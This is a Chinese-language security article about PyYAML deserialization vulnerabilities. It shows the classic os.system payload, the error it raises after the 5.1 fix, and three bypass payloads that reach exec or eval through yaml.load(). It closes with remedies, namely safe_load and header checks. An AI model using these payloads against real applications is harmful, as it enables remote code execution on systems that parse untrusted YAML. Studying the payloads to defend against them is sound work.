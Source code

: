 # PyYAML介绍

PyYAML是Python出众的模块之一。PyYAML就是python的一个yaml库yaml格式的语言都会有自己的实现来进行yaml格式的解析（读取和保存）。若对于Python反序列化有所了解一定会听说过它。

# PyYAML历史漏洞和修复

它的反序列化漏洞使得大多数Python安全研究人员对齐记忆犹新。

当咱们使用反序列化时候会使用如下的载荷：

```
!!python/object/new:os.system ["whoami"]
```

并且使用load()进行加载时PyYAML将会执行os.system("whoami")。这样会导致命令执行，从而输出用户名。

该漏洞在5.1+版本之中得到修复，如果依然使用历史漏洞载荷，将会得到错误提示的告警。

```
while constructing a Python instance
expected a class, but found <class 'builtin_function_or_method'>
  in "<unicode string>", line 1, column 1:
    !!python/object/new:os.system [" ... 
    ^
```

这样因为只能反序列化部分基本类型，极大程度上缓解了反序列化漏洞带来的影响。

# PyYAML ByPass

当咱们回看部分基本类型时，将会注意到Python内置方法exec、eval。在手册之中有这样一段描述。

```
exec 执行储存在字符串或文件中的Python语句，相比于 eval，exec可以执行更复杂的 Python 代码。
```

如此能够得到ByPass载荷。

PayLoad1:

```
import yaml

payload = """
- !!python/object/new:str
    args: []
    state: !!python/tuple
    - "print('漏洞存在')"
    - !!python/object/new:staticmethod
      args: [0]
      state:
        update: !!python/name:exec
"""
yaml.load(payload)

回显：
->漏洞存在
```

PayLoad2:

```
import yaml

payload = """
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "print('漏洞存在')"
"""
yaml.load(payload)

回显：
->漏洞存在
```

PayLoad3:

```
import yaml

payload = """
!!python/object/new:tuple 
- !!python/object/new:map 
  - !!python/name:eval
  - [ print('漏洞存在') ]
"""
yaml.load(payload)

回显：
->漏洞存在
```

这三种载荷均是利用基本类型之中代码执行函数，从而绕过5.1+的防御措施。

# 修复方法

> 1、按照官方推荐使用safe_load对于序列化内容进行加载。
>
> 2、检测加载文件头防止加载代码执行函数。
